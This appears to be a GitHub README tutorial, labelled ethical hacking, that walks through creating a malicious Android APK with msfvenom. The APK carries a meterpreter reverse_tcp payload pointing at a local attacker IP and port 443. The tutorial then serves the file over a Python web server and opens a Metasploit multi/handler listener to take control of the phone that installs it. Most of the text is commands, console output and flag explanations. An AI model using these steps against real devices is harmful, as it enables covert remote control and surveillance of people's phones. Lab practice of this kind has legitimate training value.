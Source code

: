 # Ethical-Hacking

In these practices we will put in the form of code and a step-by-step explanation of each practice.

## First Practice

### msfvenom apk

In this first practice we will use msfvenom to create an application which will aim to control an Android device for ethical purposes.


#### Escalate privileges
**┌──(kali㉿CarlosSantos)-[~]**
**└─$** `sudo -s`


#### We check what our hostname is
**┌──(root㉿CarlosSantos)-[/home/kali]**
**└─#** `hostname -I`



 >[!INFO]
 >
 >If you do not have kali metasploit installed on your system, you must install it `sudo apt install metasploit-framework`


#### We use msfvenom
**┌──(root㉿CarlosSantos)-[/home/kali]**
**└─#** `msfvenom -p android/meterpreter/reverse_tcp LHOST=172.27.4.239 LPORT=443 -o practice.apk`

1. *msfvenom: Es el nombre del comando que invoca la herramienta msfvenom. **-p***

1. *`android/meterpreter/reverse_tcp`: Specifies the payload to use in the APK file. In this case, the `android/meterpreter/reverse_tcp` payload is used, which allows establishing a reverse TCP connection on Android devices.*

1. *LHOST=172.27.4.239: Specifies the IP address of the host (the machine running the server) to which the Metasploit payload will connect. In this case, the IP address is 172.27.4.239*

1. *LPORT=443: Specifies the port number on the host that the Metasploit payload will connect to. In this case, the port is 443, which is commonly used for secure HTTPS connections.*

1. **-o** *practice.apk: Especifica el nombre del archivo de salida, es decir, el nombre del archivo APK malicioso que se generará. En este caso, el archivo se llamará practice.apk.*


#### We create a local server with python3
**┌──(root㉿CarlosSantos)-[/home/kali]**
**└─#** `python3 -m http.server 80`



   >[!IMPORTANT]
   >
   >Remember to connect to the server with your android, in this case they must be on the same network since the server is local, just like our attack.
   >Install practice.apk in your android


#### Running the msfconsole
**┌──(root㉿CarlosSantos)-[/home/kali]**
**└─#** `msfconsole`

1. *Running the msfconsole command will open an interactive console where you can use a wide range of Metasploit functionality. From this console, you can load and configure modules, select and configure exploits, scan and enumerate systems, launch attacks, and perform penetration testing on networks and systems.*

#### Running the /multi/handler
**msf6 >**  `use /multi/handler`
**[*] Using configured payload generic/shell_reverse_tcp msf6 exploit(multi/handler) >**

1. *This command is used to select the multi/handler module, which is a special module in Metasploit that is used to handle reverse shell or meterpreter connections. That is, it is the module that listens to and handles incoming connections from payloads that have been executed on the target systems.*


#### set payload
**msf6 exploit(multi/handler) >** `set Payload android/meterpreter reverse_tcp`
**payload => android/meterpreter/reverse_tcp**

1. *The set payload android/meterpreter/reverse_tcp command is used in the msfconsole command line interface of the Metasploit Framework.*

**This command configures the payload to be used in the currently selected module. In this case, the payload is android/meterpreter/reverse_tcp.*

**Here is the meaning of each part of the payload:*

**android: Indicates that the payload is designed for Android systems.*
**meterpreter: It is an advanced and versatile Metasploit shell that provides a number of features, such as the ability to migrate between different processes, load scripts and extensions at runtime, and capture keyboard and screen input.reverse_tcp: This is a type of connection in which the target machine establishes the connection back to the attacker (i.e. "reverse"), which can be useful for bypassing certain types of firewalls.*


#### show options
**msf6 exploit(multi/handler) >** `show options`

*Module options (exploit/multi/handler):*

   **Name**  **Current** **Setting**  **Required**  **Description**
   ----  ---------------  --------  -----------


**Payload options (android/meterpreter/reverse_tcp):**

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface
                                      may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.



* *This command displays the options available for the currently selected module. These options can include details such as the IP address and port of the target host, the IP address and port of the local host, credentials to authenticate to the target host, and more.*


#### listening mode
**msf6 exploit(multi/handler) >** `set LHOST 172.27.4.239`
**LHOST => 172.27.4.239**
**msf6 exploit(multi/handler) >** `set LPORT 443`
**LPORT => 443**
**msf6 exploit(multi/handler) >** `run`

>[!IMPORTANT]
>
>Until the Android enters the application, nothing will happen after it enters, we are in listening mode and through that action we will enter the phone



* set LHOST 172.27.4.239: This command sets the LHOST (Local HOST) option, which is the IP address of the local machine (that is, the attacker's machine). This will be the IP address that the target system will try to connect to. In this case, it is set to 172.27.4.239.

* set LPORT 443: This command sets the LPORT (Local PORT) option, which is the port on the local machine that will listen for incoming connections from the target system. In this case, it is set to 443, which is commonly used for secure HTTPS connections.

* run: This command runs the exploit module with the configured options. In this case, the multi/handler module will start listening for incoming connections on the specified IP address and port.

